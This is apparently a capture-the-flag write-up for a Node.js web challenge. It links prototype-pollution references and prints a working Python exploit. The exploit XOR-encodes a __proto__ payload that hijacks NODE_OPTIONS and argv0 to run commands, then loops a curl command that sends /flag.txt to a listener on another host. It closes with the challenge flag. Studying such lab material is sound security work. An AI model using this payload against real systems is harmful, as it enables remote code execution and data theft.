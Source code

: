 # Toxic Writeup

Toxic is a web challenge, it's supposed to be easy, you are given the `app.js` file and you need to get a RCE.

## The vuln

Read [this](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution) and [this](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce).

Congratz you can now exploit a prototype pollution, I don't know what was hard in that? The only additional thing you need to do is encrypt your payload. You need the key? WELP the key is randomly generated between 1 and 10 so just fix your key and try the request several time!

Here is the exploit script:

```Python

# There is a prototype pollution in decObjIn
# Plus `exec` will get us a RCE

from base64 import b64encode
import json
import requests

url = "http://10.1.27.134:13497/"
#url = "http://127.0.0.1:3030"
rev_ip = "10.1.11.16"
rev_port = "4444"

def xorNb(msg, key):
    return b64encode(bytes(
        map(
            lambda x: x ^ key,
            msg.encode()
        )
    )).decode()

def encObj(cmd,key):
    z = json.JSONEncoder()
    x = lambda k: xorNb(k, key)
    payload = {
        x('__proto__'):{
            x('shell'): x('/proc/self/exe'),
            x('argv0'): x("console.log(require('child_process').execSync('{}')).toString()//".format(cmd)),
            x("NODE_OPTIONS"): x("--require /proc/self/cmdline")
        }
    }
    return b64encode(z.encode(payload).encode()).decode()

def sendEncRequest(cmd, key):
    enc = encObj(cmd, key)
    requests.post(url, json={"json":enc})

while True:
    sendEncRequest('curl {}:{}/ -d @/flag.txt'.format(rev_ip, rev_port), 4) # We pray the key is 4

```

FLAG: `insec{j4v4scr1pt_w4s_4_g00d_id34_??}`
